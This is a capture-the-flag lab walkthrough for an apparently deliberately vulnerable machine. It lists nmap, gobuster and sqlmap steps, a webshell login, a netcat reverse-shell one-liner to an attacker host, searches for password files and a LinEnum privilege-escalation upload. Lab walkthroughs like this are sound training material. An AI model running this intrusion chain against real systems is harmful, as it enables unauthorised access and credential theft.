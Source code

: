 ### Perpare
```
export ip=TargetIP
```

### Task 2
1. `nmap -T4 -p- $ip`
2. `nmap -p 80 -A $ip`
3. `nmap -p 22 -A $ip`
4. `nmap -p 80 -A $ip`

I dunno why they ordering this. #2 and #4 are just same one line nmap

### Task 3
`gobuster dir -u $ip -w /usr/share/wordlists/dirb/big.txt -x php,txt`
`/.xxx (Status: 200)`

### Task 4
Bacially just sqlmap. You don't need any input just keep `Y` until you got the injectable target.

https://gist.github.com/A1vinSmith/3121e6854de93dfea6e8ab65718d07ed

`$URL` would be `export URL=http://TargetIP/.xxx` the path found in Task 3

1. Find it from the final database data
2. Find it from the final database data
3. `sqlmap resumed the following injection point(s) from stored session:` They're X injection from here

### Task 5
Login with the credential found from Task4

You're in a page with the webshell you can use now

1. Noted there is one duplicate item shows up. It doesn't count
```
ls
```

2. Check Pingu still there or not
```
cat /etc/passwd | grep /bin/bash
```

3. Netcat get reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc HackerIP 4242 >/tmp/f
```

On you kali, listen the 4242 port
`nc -lvnp 4242`

okay, now Gain a stable shell instead of the reverse-shell https://github.com/A1vinSmith/OSCP-PWK/wiki/Python

now we're on this `www-data@ubuntu:/home/papa$`

Find the hidden pass
`find / -name *pass* -user www-data 2>/dev/null`

Get the ssh by `cat /var/hidden/pass`

### Task 6
1. Login with the ssh password
`ssh pingu@$ip`

Method 1: SCP
`scp LinEnum.sh pingu@$ip:/tmp`

Method 2: https://blog.netspi.com/15-ways-to-download-a-file/

Now go to `/tmp` find the `LinEnum.sh`, make it excutable if it need to be `chmod +x LinEnum.sh`
run plus save it `./LinEnum.sh | tee linout.txt`

It should shou up under `[-] SUID files`
not `usr/bin` or `/bin`. a special one here.















